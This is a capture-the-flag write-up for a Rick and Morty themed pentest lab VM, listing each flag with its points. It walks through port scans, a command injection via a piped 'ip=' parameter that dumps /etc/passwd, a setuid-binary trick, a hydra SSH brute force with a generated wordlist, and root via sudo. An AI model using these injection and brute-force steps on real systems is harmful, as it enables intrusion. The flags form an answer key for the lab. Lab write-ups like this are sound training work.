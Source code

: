 +++
title = "write up de wil"
weight = 0

[extra]
author = "wil"
points = 130
translations = [
    "activités/ateliers-pentest/pentest01/wil.en.md"
]
+++

``` sh
nmap 192.168.1.17 -O -sV -p- -T5
```

----------

nmap -> port ftp open anonymous = **FLAG{Whoa this is unexpected} - 10 Points**

----------

nmap port 13337 -> **FLAG{TheyFoundMyBackDoorMorty}-10Points**

----------

dirb port 80 == /password/ == **FLAG{Yeah d- just don't do it.} - 10 Points**

----------

admin panel on port 9090 == **FLAG{There is no Zeus, in your face!} - 10 Points**

----------

``` sh
telnet 192.168.1.17 60000
```

-> **FLAG{Flip the pickle Morty!} - 10 Points**

----------

robots.txt == `http://host/cgi-bin/tracertool.cgi?ip= |` (**cat** is changed so **more**)

``` sh
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
```

No login ssh so trying with source-code hint (*winter* + *Summer* as ftp
credential -> **FLAG{Get off the high road Summer!} - 10 Points**

----------

Connecting via ssh port 22222/tcp open ssh OpenSSH 7.5 (protocol 2.0) with
Summer/winter. Head sur l'image pour voir un password unzip le fichier flag
avec ce password (Meeseek) -> **FLAG{131333} - 20 points**

----------

New tips safe binary in /home/RickSanchez/RICKS_SAFE so scp+gdb+drop euid via
cp /tmp == 131333 needed argv == decrypt:
**FLAG{And Awwwaaaaayyyy we Go!} - 20 Points**

----------

Depuis le hint qui indique qu'on va devoir bf l'user RickSanchez j'ai fais
une wordlist via un script python et donc ->

``` sh
hydra -l RickSanchez -P wordlist ssh://192.168.1.17 -s 22222
```

->
**P7Curtains**

----------

``` sh
sudo su
```

as RickSanchez . flag root ->
**FLAG{Ionic Defibrillator} - 30 points**

----------

``` sh
Script py :
import string

mystring = list(string.ascii_uppercase)
nw = ["The", "Flesh", "Curtains"]

for w in nw:
    for i in range(100):
        for l in mystring:
            print("%s%s%s"% (l,i,w))
```
